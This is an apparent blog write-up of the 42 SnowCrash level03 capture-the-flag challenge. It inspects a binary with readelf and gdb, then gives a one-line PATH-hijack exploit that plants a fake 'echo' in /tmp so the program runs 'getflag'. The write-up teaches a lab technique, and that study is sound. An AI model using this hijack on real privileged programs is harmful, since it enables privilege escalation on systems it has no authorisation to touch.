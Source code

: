 ```yaml
---
title: 42 SnowCrash Level03 - Walkthrough 🤖
tags:
  - ctf
  - binary
  - path
  - exploit
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:20:44
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

First of all Identify the binary behavior

## Binary behavior

When we run this binary, it outputs "Exploit me". Let's examine the binary to understand its behavior.

```shell
readelf -p .rodata level03
```

The string dump of section '.rodata' reveals:

```shell
String dump of section '.rodata':
    [     8]  /usr/bin/env echo Exploit me
```

Step 3: Disassemble the main function

We can use gdb to disassemble the main function.

```shell
gdb -batch -ex 'file level03' -ex 'set disassembly-flavor intel' -ex 'disassemble main'
```

The disassembled code shows a call to the system function:

```
0x080484fe <+90>:    call   0x80483b0 <system@plt>
```

The argument string for the system call is located at the address `0x80485e0`.


## Exploit the binary

The binary calls `/usr/bin/env echo Exploit me` without protecting the echo call. We can exploit this by modifying the PATH environment variable to execute our own echo binary.

```shell
echo -e "getflag" > /tmp/echo && chmod +x /tmp/echo && export PATH=/tmp:$PATH && ./level03
```

This command creates a fake echo binary in `/tmp`, sets it as executable, adds `/tmp` to the beginning of the PATH, and then runs the level03 binary.
